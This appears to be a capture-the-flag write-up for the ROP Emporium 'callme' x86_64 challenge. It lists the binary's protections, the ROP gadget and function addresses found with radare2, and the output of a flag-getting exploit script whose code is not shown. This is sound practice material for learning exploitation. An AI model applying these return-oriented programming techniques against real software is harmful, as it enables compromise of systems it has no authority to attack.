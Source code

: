# ROP Emporium - 03 callme x86_64

## ELF Binary Info
> $ `rabin2 -I ./callme`  
```
arch     x86
baddr    0x400000
binsz    6952
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    .
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)

## Get ROP Gadgets
> $ `r2 -A ./callme`  
> [0x00400760]> `/R pop rdi`  
```
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret

  0x004009a3                 5f  pop rdi
  0x004009a4                 c3  ret
```

> [0x00400760]> `afl~callme`  
```
0x004006f0    1 6            sym.imp.callme_three
0x00400740    1 6            sym.imp.callme_two
0x00400720    1 6            sym.imp.callme_one
```

## Get Flag
> $ `python get_flag.py`  
```
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

